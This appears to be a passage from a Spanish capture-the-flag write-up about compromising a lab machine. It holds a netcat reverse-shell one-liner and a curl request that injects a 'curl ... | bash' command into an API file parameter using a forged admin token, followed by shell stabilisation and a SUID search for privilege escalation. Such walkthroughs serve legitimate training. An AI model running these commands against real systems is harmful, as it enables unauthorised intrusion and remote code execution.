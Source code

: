 ```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.6 443 >/tmp/f
```

```
# python -m http.server 80
```

Lo siguiente que debemos hacer es mandarle esta petición a la máquina víctima y ponerlos en escucha con netcat por el puerto 443

```
# curl -s 'http://10.129.246.38:3000/api/logs?file=;curl%20http://10.10.16.6/cmd|bash' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NjdhYjMyYjU3YmZiNzA0N2EzZTJmZDAiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFzZGZAdGVzdC5jb20iLCJpYXQiOjE3MTkzNDAzMjB9.L5KCGvWNkVLN7BEUPAUczQTGYP-xDoXGOMzsbovgt_k' | jq -r
```

```
# nc -nlvp 443
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

## Privilege Escalation

Buscando archivos con permisos `SUID` el que más me llama la atención es `/opt/count`

```
# find / -perm -4000 2>/dev/null
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/opt/count
```